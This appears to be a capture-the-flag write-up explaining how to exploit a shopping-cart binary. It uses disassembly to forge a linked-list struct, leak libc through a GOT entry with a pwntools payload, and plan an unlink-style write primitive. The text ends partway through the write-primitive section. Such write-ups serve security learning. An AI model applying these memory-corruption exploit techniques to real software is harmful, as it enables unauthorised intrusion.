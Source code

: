 ## Read primitive
Our first step is to get a libc leak. Let's take a look at the assembly for the `checkout` function first to find the offsets we need to target.
```asm
   0x08048b70 <+53>:	mov    DWORD PTR [esp+0x8],0x8049013
   0x08048b78 <+61>:	mov    DWORD PTR [esp+0x4],0x8048ebe
   0x08048b80 <+69>:	lea    eax,[ebp-0x20]
   0x08048b83 <+72>:	mov    DWORD PTR [esp],eax
   0x08048b86 <+75>:	call   0x8048550 <asprintf@plt>
   0x08048b8b <+80>:	mov    DWORD PTR [ebp-0x1c],0x1
   0x08048b92 <+87>:	lea    eax,[ebp-0x20]
   0x08048b95 <+90>:	mov    DWORD PTR [esp],eax
   0x08048b98 <+93>:	call   0x8048835 <insert>
```
This code snippet from the `checkout` function copies the string "iPhone 8" into the name field and copies the price, 1, into the price field, and then inserts the item into the linked list. Here is the important part: the name field is stored at `ebp-0x20`, the price field is stored at `ebp-0x1c`, so the fd pointer must be at `ebp-0x18` and the bd pointer must be at `ebp-0x14`.

With this knowledge, we can construct a read primitive. The `cart` function is the easiest target. Let's take a look at the assembly.
```asm
   0x08048aab <+58>:    mov    DWORD PTR [esp+0x4],0x15
   0x08048ab3 <+66>:	lea    eax,[ebp-0x22]
   0x08048ab6 <+69>:	mov    DWORD PTR [esp],eax
   0x08048ab9 <+72>:	call   0x8048799 <my_read>
   0x08048abe <+77>:	movzx  eax,BYTE PTR [ebp-0x22]
   0x08048ac2 <+81>:	cmp    al,0x79
   0x08048ac4 <+83>:	jne    0x8048b20 <cart+175>
```
This is the code which checks to see if the user inputted a "y". However, we can see that the my_read function reads into a buffer located at ebp-0x22! Since the function reads in 0x15 bytes, we can use this to modify the iPhone 8 item and use it to leak GOT entries. This is because the printf that is used later prints the name field in the struct. Since we can modify the iPhone 8 struct, we can change the name field to a GOT pointer and use it to get a LIBC leak. Here is the relevant code in my exploit:
```py
payload = b""
payload += p32(exe.got["puts"])
payload += p32(exe.got["puts"])
payload += p32(0)
payload += p32(0)

puts_leak = u32(leak(payload))
log.info("Puts leaked at {}".format(hex(puts_leak)))
libc.address = puts_leak - libc.symbols["puts"]
```
Here, I construct a fake iPhone 8 struct with the GOT entry for puts as the name, price, and set its fd and bd pointer to null. Now that we have our libc leak, let's try to get a write primitive.

## Write primitive
Although this is not a heap problem, we can take inspiration from the unsafe unlink and target the `delete` function. Since we can forge an item struct, we can also modify its fd and bd pointers to get a write primitive. Consider the following logic of the `delete` function:
```
item->bd->fd = item->fd;
item->fd->bd = item->bd;
```
Given this, we can use the second line in this code snippet to write `bd` at `fd`, giving us a write-what-where gadget. However, there is a big exception, which is defined in the first line: both `bd` and `fd` must be writeable. The first line tries to write the forward pointer of item 8 bytes after the address referenced to by `item->bd`. Therefore, `bd+0x8` must be writeable. This makes the challenge significantly more difficult, since a simple GOT overwrite of `atoi` to `system` won't work, since we don't have write access to libc, only read access.